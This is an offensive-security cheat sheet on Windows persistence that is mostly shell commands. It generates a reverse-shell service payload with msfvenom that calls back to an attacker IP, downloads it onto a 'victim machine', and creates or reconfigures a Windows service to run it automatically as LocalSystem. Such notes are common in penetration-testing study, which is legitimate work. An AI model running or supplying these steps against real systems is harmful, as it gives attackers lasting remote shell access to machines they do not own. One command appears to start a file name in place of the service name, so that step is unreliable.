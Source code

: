 # Services

## Persistence using Backdoored Services

### Backdoor a New Service

```
# Create the service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=4444 -f exe-service -o shell.exe

# Download in the victim machine
iwr http://192.168.56.20/shell.exe -OutFile shell.exe

# Create a new service in the victim machine
sc.exe create MalService binPath="C:\shell.exe" start=auto

# Start the Service in victim machine
sc.exe start MalService

```

### Backdoor an Existing Service

```
# Enumerate Services in Victim machine
sc.exe query state=all

sc.exe query MalService

# View the path
sc.exe qc MalService

# Create a payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=4444 -f exe-service -o shell2.exe

# Reconfigure the service
sc.exe config MalService binPath= "C:\shell2.exe" start= auto obj= "LocalSystem"

# Start the service
sc.exe start shell2.exe

```

***

## REFERENCES

* https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications
* https://be4sec.com/2023/01/15/persistence-via-creating-a-windows-service/
* https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
